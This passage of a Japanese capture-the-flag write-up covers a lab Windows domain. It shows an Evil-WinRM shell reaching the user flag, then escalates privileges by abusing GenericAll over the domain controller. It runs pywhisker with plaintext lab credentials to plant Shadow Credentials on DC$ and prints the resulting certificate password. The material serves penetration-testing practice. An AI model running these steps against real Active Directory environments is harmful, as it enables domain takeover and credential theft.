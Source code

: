 ユーザーフラグ取得できた
```sh
*Evil-WinRM* PS C:\Users\support\Desktop> ls


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/29/2025   7:54 AM             34 user.txt


*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
```




# Privilege Escalation

supportユーザーは、SHARED Support Accountsグループに入っていて、DCにGenericAllできるってこと？
![](https://i.imgur.com/DrFhZez.png)

GenericAllは基本的になんでもできてしまう
![](https://i.imgur.com/PG3Og6F.png)

Linuxからの攻撃だと、**リソースベースの制約付き委任（Resource-Based Constrained Delegation, RBCD）**、 **シャドウクレデンシャル攻撃**が行える
シャドウクレデンシャル攻撃を行なってみる
- pywhiskerを使用する
	- https://github.com/ShutdownRepo/pywhisker

ドメインコントローラー（DC$） のコンピューターアカウントに対してShadow Credentials を追加する
```bash
└─$ pywhisker -d "support.htb0" -u "support" -p "Ironside47pleasure40Watchful" --target "DC$" --action "add"
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=support,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 28e2f978-c485-deb4-0fb3-a9171cd65dc9
[*] Updating the msDS-KeyCredentialLink attribute of DC$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 4UwehWqZ.pfx
[+] PFX exportiert nach: 4UwehWqZ.pfx
[i] Passwort für PFX: Dmy6MUXFE65c25LHuI1K
[+] Saved PFX (#PKCS12) certificate & key at path: 4UwehWqZ.pfx
[*] Must be used with password: Dmy6MUXFE65c25LHuI1K
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

```
